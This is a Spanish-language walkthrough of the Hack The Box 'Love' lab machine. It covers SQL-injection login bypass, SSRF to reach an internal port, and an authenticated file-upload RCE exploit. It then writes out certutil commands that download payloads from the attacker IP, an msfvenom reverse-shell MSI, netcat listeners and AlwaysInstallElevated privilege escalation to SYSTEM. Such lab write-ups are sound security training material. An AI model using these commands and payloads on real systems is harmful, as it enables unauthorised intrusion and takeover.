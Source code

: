 ## Summary

- IP -> 10.10.10.239
- Ports -> TCP (80,135,139,443,445,3306,5000,5040,5985,7680,47001,), UDP (idk)
- OS ->  Windows 
- Services & Applications
    - 80 -> Apache httpd 2.4.46 
    - 443 -> 

## Recon
❯ **whatweb http://< URL>**  Nos dara una breve descripcion del gestor de contenidos del puerto 80

* Podemos ver si se inyectan comandos SQL en la pagina web

❯ **Ctrl + u** Para ver el codigo fuente

Cuando una Web es muy simple, podemos usar el siguiente comando 
❯ **nmap --script http-enum -p80 10.10.10.239 -oN WebScan** 
-   -p80 -> Indica el puerto que se quiere escanear
-   10.10.10.239 -> Dirección IP que se quiere escanear
-   -oN WebScan -> Exporta el output a un fichero en formato nmap con nombre “WebScan”
-  http-enum -> Aplica Fuzing a HTTP, utiliza un diccionario de 1000 rutas y ver si hay algunas rutas existen

Por lo que encontramos un posible **Admin** folder y lo colocamos en la url y efectivamente, nos coloca otra ventana de inicio de sesion pero en este caso nos pone usuario y passwd. 

❯ **searchsploit voting system** Para ver si hay vulnerabilidades con ese nombre. Encontramos uno que dice **Autentication Bypass 1.0 (SQLI)** y es un archivo .txt, los que dicen online creemos que no aplican 
❯ **searchsploit -x 49843.txt** Para ver el contenido del archivo (x=examing)

Al ver contenido del exploit nos damos cuenta que debemos de tramitar un peticion por **POST** y debemos de meter en el login una inyeccion SQL. Por lo que nos disponemos a abrir BurpSuite y copiamos todo el login que se encuentra en el archivo .txt qye habiamos visto

Despues de colocar la inyeccion y darle Forward nos loggea automaticamente. 
Podemos enviar la data que encontramos en el Searchsploit con el boton de ‘Forward’ y luego desactivamos el ‘intercept a off’


**** 

Otra forma de hacerlo es por medio del puerto **443 ssl/http** en donde observamos que existe un subdominio el cual podemos utilizar para saber si hay algo que nos pueda ayudar. Pero antes debemos de agregar el **dominio y subdominio** a la ruta **/etc/hosts** ya que existe un virtual hosting.

❯ **openssl s_client -connect 10.10.10.239:443** Podriamos conectarnos al openssl para inspeccionar mejor el certificado del puerto 443
* staging.love.htb y love.htb -> El dominio que debemos de agregar

Una vez agregado el subdominio podemos mirarlo en la pagina web 
Tiene una pestana de **demo** en donde hay una opcion que nos indica que ‘**especifiquemos una url**’

❯ **python3 -m http.server 80** Nos montamos un servidor por el puerto 80 y miramos si nos hace la peticion
❯ **nano test** Nos creamos un archivo llamado test en el cual le agregamos cualquier informacion
En la pagina web colocamos la url de nuestro servidor y buscamos ese archivo **\http://10.10.14.2/test** y nos damos cuenta que nos muestra el contenido de nuestro archivo

Cuando la pagina web nos muestra informacion en la misma web podemos creer que es un SSRF
Por lo que nos podemos aprovechar de eso y hacer un **Server Side Request Forgery (SSRF)** 

Primero hacemos que escanee la url del puerto 80 **\http://127.0.0.1** o sea, escaneara el propio localhost de la maquina victima

Haremos que el mismo servidor se haga un internal port discovery desde el **local-host (\http://localhost:5000/ o \http://127.0.0.1:5000)** por el puerto 5000 ya que ese puerto es open, esto significa que el mismo servidor nos podria dar informacion por un puerto especifico haciendo la peticion internamente.

Ahi encontraremos el usuario admin y su passwd 

****

Buscaremos en searchsploit pero ahora el exploit en donde dice que ya estamos autenticados que se llama **File Upload RCE (Autenthicated Remote Code Execution)**

❯ **searchsploit -m .txt** Puedes descargarte el archivo sploit ejecutable a tu computadora para despues poder ejecutarlo (m=move). Podemos observar que es el tipico sploit en el cual debes de meter IP, usuario, contrasena, IP de la revershell, Puerto de la revershell, para poder hacer esa autenticacion y poder ser ususario root.
❯ **nano 49445.txt** Para ver el contenido del exploit y modificarlo, para poder usarlo 

Debemos de hacer algunas modificaciones al script como:
* love.htb -> Colocarle la IP de la pagina victima
* admin -> usuario
* loveisintheair!!! -> passwd
* 10.10.14.2 -> Nuestra IP
* 443 -> Puerto de Netcat

Debemos quitarle todos los /**votesystem/** ya que eso no existe en nuestra ruta en el servidor victima.
❯ **python3 49445.py** Para ejecutar el exploit

Una vez corregido ejecutamos el script y nos pondemos en escucha en el puerto 443
❯ **rlwrap nc -nlvp 443** Para pondernos en escucha en espera de la revershell para Windows 



## User

Una vez adentro nos vamos a:
❯ **cd C:\Users** Nos cambiamos de directorio
❯ **dir** Para ver el contenido del directorio
❯ **cd Phoebe** Nos movemos al dir del usuario phoebe
❯ **cd Desktop** En el desktop podemos encontrar la primer flag, user.txt


Ahora debemos de escalar privilegios para poder ser usuario root.
❯ **cd Windows/temp** Empezamos llendonos a ese directorio para crear una carpeta, ya que ese dir tiene privilegios de lectura y escritura
❯ **mkdir Privesc** Creamos el directorio para escalar privilegios.

❯ **systeminfo** Podemos observar la informacion del sistema Windows

Podemos usar la herramienta **Winpeas** en el sistema Windows. Nos dirigimos en Google a la pagina oficial en Github de Carlospolop y descargamos de ahi el archivo ejecutable de 64 bits. Lo encontramos en realises como **winPeasx64.exe**

Lo traemos a nuestra ruta de trabajo y nos creamos un servidor para poder subirlo a la maquina victima
❯ **python3 -m http.server 80** Una vez guardado lo tenemos que transferir a la maquina victima y para ello nos montamos un servidor http 80.


Despues en la maquina victima Windows le decimos que queremos cargar un archivo.
❯ **certutil.exe -f -urlcache -split \http://10.10.14.2/winPeas.exe winPeas.exe**
Subiremos el archivo con el nombre de winPeas.exe y lo depositaremos como winPeas.exe en el equipo victima, esto se lograra con una peticion GET a nuestro servidor.

**WinPeas** sirve para detectar vias potenciales para poder escalar privilegios.
❯ **winPeas.exe** Para ejecutar el archivo .exe en Windows

Podemos observar que de toda la informacion nos despliega el ‘**Checking AlwaysInstallElevated**’ y tiene:
* **set 1 in HKLM** 
* **set 1 in HKCU** lo cual es malo para esa maquina Windows.
Con este nos podemos ir a la url de **\https://book.hacktricks.xyz** que nos da y asi poder abusar y escalar privilegios

Vamos a la url que nos ofrece esa vulnerabilidad, 
Filtrmos por **AlwaysInstallElevated**
Nos indica que debemos utilizar el siguiente comando en nuestra maquina de atacante para poder crear un archivo que despues subiremos a la maquina Windows
❯ **msfvenon -p windows/x64/shell_reverse_tcp LHOST=10.10.14.2 LPORT=443 --plataform windows -a 64 -f msi -o reverse.msi** 
* LHOST ->  IP de atacante
* LPORT -> puerto Netcat 443
* p -> payload 
* a -> arquitectura x64
* f -> formato
* nombre del archivo -> reverse.msi

## Root

Una vez creado el archivo **.msi** lo subimos a la maquina victima creando un servidor con python como lo hicimos anteriormente.
❯ **python3 -m http.server 80** Una vez guardado lo tenemos que transferir a la maquina victima y para ello nos montamos un servidor http 80.

Despues en la maquina victima le decimos que queremos cargar ese archivo.
❯ **certutil.exe -f -urlcache -split \http://10.10.14.2/reverse.msi reverse.msi** 
* Ip -> Maquina de atacante
Buscamos el archivo con ese nombre **reverse.msi** y lo depositarremos como reverse.msi en el equipo victima Windows.

❯ **rlwrap nc -nlvp 443** Nos ponemos en escucha por el puerto 443 en Windows.

Para instalar el archivo .msi en una maquina Windows debemos de colocar el siguiente comando:
❯ **msiexec /quiet /qn /i reverse.msi**
Una vez que ejecutemos el archivo en la maquina victima Windows, esta nos dara una revershell y en este caso seremos usuario **Authority\System** que seria el root.

Ahora nos vamos al Desktop del Administrator y buscamos la flag root.txt